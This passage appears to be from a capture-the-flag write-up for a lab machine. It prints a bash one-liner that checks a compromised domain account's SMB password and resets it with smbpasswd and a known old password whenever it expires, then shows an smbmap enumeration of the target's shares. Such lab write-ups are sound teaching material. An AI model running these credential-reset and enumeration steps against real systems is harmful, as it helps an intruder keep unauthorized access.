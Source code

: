 

    if echo "$pass" | smbclient -L //10.10.10.193 -U bhult 2>/dev/null >/dev/null; then echo "Password $pass still good"; else pass=$(date +%s | md5sum | base64 | head -c7; echo .); (echo 'Fabricorp01'; echo "$pass"; echo "$pass";) | smbpasswd -r 10.10.10.193 -s bhult; echo "password reset to $pass"; fi; [command here]



With some white-space added:



    if echo "$pass" | smbclient -L //10.10.10.193 -U bhult 2>/dev/null >/dev/null; then 
      echo "Password $pass still good"; 
    else 
      pass=$(date +%s | md5sum | base64 | head -c7; echo .); 
      (echo 'Fabricorp01'; echo "$pass"; echo "$pass";) | 
        smbpasswd -r 10.10.10.193 -s bhult; 
      echo "password reset to $pass"; 
    fi; 
    [command here]



It first tries to list shares on 10.10.10.193 using `smbclient`, with
all the output going to `/dev/nul`. If that's successful, then the
password is still good. Otherwise, it creates a new password, and then
changes us using `smbpasswd`. So now I can just up arrow to get this
line, and add whatever command I want to run to the end.

#### SMB

The first thing I need to do is list the shares now accessible via
bhult. I'm using the one-liner above, but for the sake of this post,
I'll just show just the command run:



    root@kali# [pass check] smbmap -H 10.10.10.193 -u bhult -p "$pass"
    Password changed for user bhult on 10.10.10.193.
    password reset to YTQwMTd.
    [+] Finding open SMB ports....
    [+] User SMB session established on 10.10.10.193...
    [+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            HP-MFT01                                                NO ACCESS       HP-MFT01
            IPC$                                                    READ ONLY       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share
            print$                                                  READ ONLY       Printer Drivers
            SYSVOL                                                  READ ONLY       Logon server share 



I'll connect to the `print$` share and see what's there. Unfortunately,
there's not much of use. There's a bunch of libraries (`.dll`), and
there printer driver and config information.
